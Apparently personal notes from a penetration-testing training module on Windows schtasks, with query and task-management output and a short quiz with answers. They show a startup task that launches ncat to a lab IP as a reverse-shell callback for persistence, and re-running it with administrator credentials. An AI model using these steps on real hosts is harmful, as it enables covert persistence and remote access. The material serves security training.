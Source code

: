 ### Introduction
- Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen, but they are also an excellent persistence point for attackers. In this section, we will discuss using schtasks to:
	- Learn how to check what tasks exist.
	- Create a new task to help us automate actions or acquire a shell on the host.



### What Are Scheduled Tasks?
- The Task Scheduler allows us as admins to perform routine tasks without having to kick them off manually. 
- The scheduler will monitor the host for a specific set of conditions called triggers and execute the task once the conditions are met.

> **Story Time: On several engagements, while pentesting an enterprise environment, I have been in a position where I landed on a host and needed a quick way to set persistence. Instead of doing anything crazy or pulling down another executable onto the host, I decided to search for or create a scheduled task that runs when a user logs in or the host reboots. In this scheduled task, I would set a trigger to open a new socket utilizing PowerShell, reaching out to my Command and Control infrastructure. This would ensure that I could get back in if I lost access to this host. If I were lucky, when the task I chose ran, I might also receive a SYSTEM-level shell back, elevating my privileges at the same time. It quickly ensured host access without setting off alarms with antivirus or data loss prevention systems.**

- #### Triggers That Can Kick Off a Scheduled Task
	- When a specific system event occurs.
	- At a specific time.
	- At a specific time on a daily schedule.
	- At a specific time on a weekly schedule.
	- At a specific time on a monthly schedule.
	- At a specific time on a monthly day-of-week schedule.
	- When the computer enters an idle state.
	- When the task is registered.
	- When the system is booted.
	- When a user logs on.
	- When a Terminal Server session changes state.
- This list of triggers is extensive and gives us many options for having a task take action. 
- Now that we know what scheduled tasks are and what can make them actionable, it is time to look at using them.



### How to Utilize Schtasks
- In the sections provided below, we will go over exactly how we can utilize the `schtasks` command to its fullest extent. 
- Additionally, as we go over them in greater detail, a formatted table providing the syntax for each action will be provided.
- Note that the sections provided here are not an end-all-be-all. 
- Several of the repetitive parameters have been omitted. 
- Be sure to check the help menu `/?` to see a complete list of what can be used.
- #### Display Scheduled Tasks:
- #### Query Syntax
![[Screenshot_20241110_202211.png]]
- We can view the tasks that already exist on our host by utilizing the `schtasks` command like so.
```cmd-session
C:\htb> SCHTASKS /Query /V /FO list

Folder: \  
HostName:                             DESKTOP-Victim
TaskName:                             \Check Network Access
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-Victim\htb-admin
Task To Run:                          C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In:                             N/A
Comment:                              quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```
- Chaining our parameters with `Query` allows us to format our output from the standard bulk into a list with advanced settings.
- The above output shows how the tasks would look in a list format.
- #### Create a New Scheduled Task:
	- #### Create Syntax
![[Screenshot_20241110_202241.png]]
- Creating a new scheduled task is pretty straightforward. 
- At a minimum, we must specify the following:
	- `/create` : to tell it what we are doing
	- `/sc` : we must set a schedule
	- `/tn` : we must set the name
	- `/tr` : we must give it an action to take
- Everything else is optional. 
- Let us see an example below of how we could create a task to help us get a shell.



### New Task Creation
```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

> **A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down. We can create or modify a new task by adding a new trigger and action. In our task above, we have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.**

- Now let us look at what modifying a task would look like.



### Change the Properties of a Scheduled Task
- #### Change Syntax
![[Screenshot_20241110_202337.png]]
- Ok, now let us say we found the `hash` of the local admin password and want to use it to spawn our Ncat shell for us; if anything happens, we can modify the task like so to add in the credentials for it to use.
```cmd-session
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.
```
- Now to make sure our changes took, we can query for the specific task using the `/tn` parameter and see.
```cmd-session
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```
- It looks like our changes were saved successfully. 
- Managing tasks and making changes is pretty simple. 
- We need to ensure our syntax is correct, or it may not fire.
- If we want to ensure it works, we can use the `/run` parameter to kick the task off immediately. 
- We have `queried, created, and changed` tasks up to this point. 
- Let us look at how to delete them now.
- #### Delete the Scheduled Task(s)
	- #### Delete Syntax
![[Screenshot_20241110_202422.png]]
```cmd-session
C:\htb> schtasks /delete  /tn "My Secret Task" 

WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```
- Running `schtasks /delete` is simple enough. 
- The thing to note is that if we do not supply the `/F` option, we will be prompted, like in the example above, for you to supply input. 
- Using `/F` will delete the task and suppress the message.
- Schtasks can be a great way to leverage the host to run actions for us as admins and pentesters. 
- Take some time to practice creating, modifying, and deleting tasks. 
- By now, we should be comfortable with `cmd.exe` and its workings. Let's level up and start working in `PowerShell`!



### Questions
- True or False: A scheduled task can be set to run when a user logs onto a host?
	- True
- Access the target host and take some time to practice working with Scheduled Tasks. Type COMPLETE as the answer when you are ready to move on.
	- Complete